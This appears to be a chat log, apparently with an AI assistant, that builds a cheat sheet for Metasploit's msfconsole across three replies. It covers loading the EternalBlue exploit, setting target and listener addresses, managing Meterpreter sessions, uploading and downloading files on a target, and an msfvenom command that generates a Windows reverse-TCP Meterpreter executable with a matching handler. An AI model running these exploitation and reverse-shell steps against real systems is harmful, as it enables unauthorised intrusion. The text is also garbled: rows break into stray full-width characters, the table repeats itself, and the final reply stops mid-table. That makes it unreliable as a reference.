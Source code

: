 Explain briefly and create a cheat sheet table for commands


### **MSFConsole Cheat Sheet**  
**Metasploit Framework (MSF)** is a powerful penetration testing tool, and `msfconsole` is its primary command-line interface. Below is a brief explanation and a cheat sheet of essential commands.

---

### **Brief Explanation**  
`msfconsole` provides an interactive environment to:  
- Load & manage exploits, payloads, and auxiliary modules.  
- Configure targets, set options, and execute attacks.  
- Manage sessions (e.g., Meterpreter shells).  

---

### **Cheat Sheet Table**  

| **Category**       | **Command**                          | **Description**                                      |
|--------------------|-------------------------------------|----------------------------------------------------|
| **General**        | `help`                              | Show all available commands.                      |
|                    | `banner`                            | Display a random Metasploit banner.               |
|                    | `version`                           | Show Metasploit version.                          |
|                    | `exit` / `quit`                     | Exit `msfconsole`.                                |
| **Modules**        | `search [keyword]`                  | Search for modules (exploits, payloads, etc.).   |
|                    | `use [module_path]`                 | Load a module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
|                    | `show options`                      | Display configurable options for the current module. |
|                    | `show payloads`                     | List compatible payloads for the current exploit. |
| **Exploitation**   | `set RHOSTS [IP]`                   | Set target IP(s).                                 |
|                    | `set LHOST [IP]`                    | Set local listener IP (for reverse shells).       |
|                    | `set LPORT [port]`                  | Set local listener port.                         |
|                    | `run` / `exploit`                   | Execute the loaded module.                        |
| **Sessions**       | `sessions -l`                       | List active sessions.                             |
|                    | `sessions -i [ID]`                  | Interact with a session (e.g., Meterpreter).      |
|                    ｜　`sessions -k [ID] ｜ Kill a session． ｜
｜　Payload Generation ｜　msfvenom -p [

continue the above table


Here’s the completed **MSFConsole Cheat Sheet** table with additional essential commands, including payload generation and post-exploitation:  

---

### **Cheat Sheet Table (Continued)**  

| **Category**          | **Command**                         | **Description**                                               |
| --------------------- | ----------------------------------- | ------------------------------------------------------------- |
| **Sessions (Cont.)**  | `sessions -u [ID]`                  | Upgrade a shell to Meterpreter.                               |
|                       | `background`                        | Send an active session to the background.                     |
|                       | `sessions -C "[cmd]"`               | Run a command on all sessions (e.g., `sessions -C "whoami"`). |
| **Post-Exploitation** | `meterpreter> help`                 | Show Meterpreter-specific commands.                           |
|                       | `meterpreter> sysinfo`              | View target system info.                                      |
|                       | `meterpreter> shell`                | Drop into a system shell (e.g., `/bin/bash`).                 |
|                       | `meterpreter> upload [file] [path]` | Upload a file to the target.                                  |
|                       | `meterpreter> download [file]`      | Download a file from the target.                              |
|                       |                                     |                                                               |
｜　Payload Generation ｜　`msfvenom -p [payload] LHOST=[IP] LPORT=[port] -f [format] > [file]` ｜ Generate a payload (e.g., `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > payload.exe`)． ｜
｜　Listener Setup      ｜　`use exploit/multi/handler` ｜ Set up a listener for incoming connections． ｜
｜                     ｜　`set PAYLOAD [payload_path]` ｜ Match payload to generated file (e.g., `windows/x64/meterpreter/reverse_tcp`)． |

---

### **Key Notes:**  
1. **Payload Generation**:  
   - Use `msfvenom` (outside `msfconsole`) to create standalone payloads (e.g., `.exe`, `.apk`, `.php`).  
   Example:
continue from above


Here’s the **finalized and polished MSFConsole Cheat Sheet**, including **payload generation examples** and **listener setup**:

---

### **MSFConsole Cheat Sheet**  
**Metasploit Framework (MSF)** is a powerful penetration testing tool, and `msfconsole` is its primary command-line interface. Below is a brief explanation and a cheat sheet of essential commands.

---

### **Brief Explanation**  
`msfconsole` provides an interactive environment to:  
- Load & manage exploits, payloads, and auxiliary modules.  
- Configure targets, set options, and execute attacks.  
- Manage sessions (e.g., Meterpreter shells).  

---

### **Cheat Sheet Table**  

| **Category**       | **Command**                          | **Description**                                      |
|--------------------|-------------------------------------|----------------------------------------------------|
| **General**        | `help`                              | Show all available commands.                      |
|                    | `banner`                            | Display a random Metasploit banner.               |
|                    | `version`                           | Show Metasploit version.                          |
|                    | `exit` / `quit`                     | Exit `msfconsole`.                                |
| **Modules**